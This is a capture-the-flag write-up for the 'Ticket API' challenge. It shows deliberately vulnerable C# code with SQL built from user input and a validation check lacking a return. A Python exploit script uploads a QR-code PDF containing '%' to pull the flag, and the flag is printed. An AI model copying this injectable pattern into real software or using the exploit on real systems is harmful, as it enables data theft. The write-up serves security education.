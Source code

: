# 👯 Ticket API (Score: 310 / Solves: 19)

## Description

> Built new system to verify forged entry tickets. Hope you like it.
>
> <https://dl.1753ctf.com/ticket-api/src/?s=rPm9j5hp>

## Source Code

<details><summary>file tree</summary>

```console
$ unzip -t ticket-api_src_.zip
Archive:  ticket-api_src_.zip
    testing: App.cs                   OK
    testing: App.csproj               OK
    testing: README.md                OK
No errors detected in compressed data of ticket-api_src_.zip.
```

</details>

<details><summary>README.md</summary>

```markdown
# Ticket API

This API allows to upload, and then verify ticket for events (in example CTF challenge 🚩)

## Endpoints

### Upload

Upload allows you to upload new tickets to the system. These tickets can be then verified on the event entrance:

> curl -X POST -F "file=@/path/to/ticket/file.pdf" https://ticket-api-061f5e195e3d.1753ctf.com/upload

### Verify

While integrating your entrance gate thingy call this endpoint to verify if the ticket being shown to you is not forged:

> curl -X POST -F "file=@/path/to/ticket/file.pdf" https://ticket-api-061f5e195e3d.1753ctf.com/verify

## Security

Yes. 

```

</details>

<details><summary>App.cs</summary>

```csharp
using System.Data;
using System.Runtime.Versioning;
using System.Security.Cryptography;
using Dapper;
using Microsoft.Data.Sqlite;
using ZXing.SkiaSharp;

[assembly: SupportedOSPlatform("Linux")]

var builder = WebApplication.CreateBuilder(args);
builder.Services.AddScoped<IDbConnection>((sp) => new SqliteConnection($"Data Source=data.sqlite"));

var app = builder.Build();
var flag = Environment.GetEnvironmentVariable("flag") ?? "1753c{fake_flag}";

using (var db = app.Services.GetService<IDbConnection>())
{
    await db.ExecuteAsync("CREATE TABLE Tickets (id INTEGER PRIMARY KEY, code VARCHAR(36), hash VARCHAR(40))");
    await db.ExecuteAsync($"INSERT INTO Tickets (id, code, hash) VALUES (1, '{flag}', 'admin-needs-no-hash')");
}

(string Code, string Hash) ParsePDF(Stream pdfStream)
{
    using var memoryStream = new MemoryStream();
    pdfStream.CopyTo(memoryStream);

    var bitmap = PDFtoImage.Conversion.ToImage(memoryStream, leaveOpen: true);

    var reader = new BarcodeReader();
    var result = reader.Decode(bitmap);

    using var sha1 = SHA1.Create();

    memoryStream.Position = 0;
    byte[] hashBytes = sha1.ComputeHash(memoryStream);
    var hash = BitConverter.ToString(hashBytes).Replace("-", "").ToLowerInvariant();

    return (result.Text, hash);
}

app.MapPost("upload", async (HttpContext context, IDbConnection db) =>
{
    try
    {
        var inputStream = context.Request.Form.Files[0].OpenReadStream();
        var (code, hash) = ParsePDF(inputStream);

        if (!Guid.TryParse(code, out var result))
            Results.BadRequest("Ticket must have a GUID in QR code");

        await db.QueryAsync($"INSERT INTO Tickets (code, hash) VALUES ('{code}', '{hash}')");

        return Results.Ok("Ticket added");
    }
    catch (Exception)
    {
        return Results.UnprocessableEntity("Request must contain valid PDF with QR code containg UUID");
    }
});

app.MapPost("verify", async (HttpContext context, IDbConnection db) =>
{
    try
    {
        var inputStream = context.Request.Form.Files[0].OpenReadStream();
        var (code, hash) = ParsePDF(inputStream);

        var existingHash = await db.QueryFirstOrDefaultAsync<string>($"SELECT * FROM Tickets WHERE hash like '{hash}'");

        if (existingHash is null)
            return Results.NotFound("Ticket forged!");

        var ticket = await db.QueryFirstOrDefaultAsync($"SELECT * FROM Tickets WHERE code like '{code}'");

        return Results.Ok(ticket);
    }
    catch (Exception)
    {
        return Results.UnprocessableEntity("Request must contain valid PDF with QR code containg UUID");
    }
});



app.Run();

```

</details>

<details><summary>App.csproj</summary>

```xml
<Project Sdk="Microsoft.NET.Sdk.Web">

  <PropertyGroup>
    <TargetFramework>net8.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <ItemGroup>
    <PackageReference Include="ZXing.Net.Bindings.SkiaSharp" Version="0.16.14" />
    <PackageReference Include="PDFtoImage" Version="4.0.0" />
    <PackageReference Include="ZXing.Net" Version="0.16.9" />
    <PackageReference Include="Dapper" Version="2.0.90" />
    <PackageReference Include="Microsoft.Data.Sqlite" Version="5.0.0" />
  </ItemGroup>

</Project>
```

</details>

## Flag

1753c{dizz_are_not_forged_if_they_have_the_same_hasshhh}

## Summary

- Bypassing GUID check due to lack of return

This solution is unintended, and there is no need for GUID checks or PDF SHA1 collisions.

## Initial Analysis

The application uses .NET as web framework, and SQLite as the database.

```csharp
using (var db = app.Services.GetService<IDbConnection>())
{
    await db.ExecuteAsync("CREATE TABLE Tickets (id INTEGER PRIMARY KEY, code VARCHAR(36), hash VARCHAR(40))");
    await db.ExecuteAsync($"INSERT INTO Tickets (id, code, hash) VALUES (1, '{flag}', 'admin-needs-no-hash')");
}
```

The flag is stored in the Tickets table of the database.

There are two Web APIs: POST /upload and POST /verify.

```csharp
app.MapPost("upload", async (HttpContext context, IDbConnection db) =>
{
    try
    {
        var inputStream = context.Request.Form.Files[0].OpenReadStream();
        var (code, hash) = ParsePDF(inputStream);

        if (!Guid.TryParse(code, out var result))  // [1]
            Results.BadRequest("Ticket must have a GUID in QR code");  // [2]

        await db.QueryAsync($"INSERT INTO Tickets (code, hash) VALUES ('{code}', '{hash}')");  // [3]

        return Results.Ok("Ticket added");
    }
    catch (Exception)
    {
        return Results.UnprocessableEntity("Request must contain valid PDF with QR code containg UUID");
    }
});
```

In the /upload endpoint, the PDF's QR code is read, and it is checked whether it is a GUID using `Guid.TryParse` [1].
If it is not a GUID, `Results.BadRequest("Ticket must have a GUID in QR code");` is executed [2].
However, since there is no return statement, it is possible to bypass this GUID check.
Therefore, processing does not end here and continues to the subsequent processing [3].

```csharp
app.MapPost("verify", async (HttpContext context, IDbConnection db) =>
{
    try
    {
        var inputStream = context.Request.Form.Files[0].OpenReadStream();
        var (code, hash) = ParsePDF(inputStream);

        var existingHash = await db.QueryFirstOrDefaultAsync<string>($"SELECT * FROM Tickets WHERE hash like '{hash}'");  // [4]

        if (existingHash is null)
            return Results.NotFound("Ticket forged!");

        var ticket = await db.QueryFirstOrDefaultAsync($"SELECT * FROM Tickets WHERE code like '{code}'");  // [5]

        return Results.Ok(ticket);
    }
    catch (Exception)
    {
        return Results.UnprocessableEntity("Request must contain valid PDF with QR code containg UUID");
    }
});
```

Hash matching [4].
To match the hash of the PDF uploaded in /upload, we can simply send the same PDF in both /upload and /verify.

The variable `code` is user-controllable [5].
Since it uses `WHERE code like`, by using `%` to match the condition, we can retrieve the flag contained in the record.

Therefore, by generating a QR code with `%` and converting it into a PDF, we can get the flag by sending it in both /upload and /verify.

## Solution

exploit.py

```python
from io import BytesIO
import qrcode
import requests

requests.packages.urllib3.disable_warnings()

s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
s.verify = False

base_url = "https://ticket-api-061f5e195e3d.1753ctf.com"

img = qrcode.make("%")
pdf_bytes = BytesIO()
img.save(pdf_bytes, format="PDF")
pdf_bytes.seek(0)

with open("tmp.pdf", "wb") as f:
    f.write(pdf_bytes.read())

s.post(f"{base_url}/upload", files={"file": open("tmp.pdf", "rb")})
resp = s.post(f"{base_url}/verify", files={"file": open("tmp.pdf", "rb")})

print(resp.json())
```

Result:

```console
$ python3 exploit.py
{'id': 1, 'code': '1753c{dizz_are_not_forged_if_they_have_the_same_hasshhh}', 'hash': 'admin-needs-no-hash'}
```
